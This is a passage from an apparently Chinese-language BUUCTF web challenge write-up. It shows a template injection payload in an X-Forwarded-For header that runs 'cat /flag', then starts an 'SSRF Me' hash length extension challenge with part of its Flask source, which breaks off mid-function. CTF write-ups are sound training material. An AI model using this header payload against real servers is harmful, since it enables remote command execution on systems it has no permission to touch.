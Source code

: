 

```
X-Forwarded-For: {if system("cat /flag")}{/if}
```

![image-20221022213204740](/images/buuctf-web2/image-20221022213204740.png)



<br>

***

<br>

# [哈希长度扩展攻击]SSRF Me



这题给了提示,`flag`在`./flag.txt`中

```python
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json

reload(sys)
sys.setdefaultencoding('latin1')
app = Flask(__name__)
secert_key = os.urandom(16)

class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)): #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
```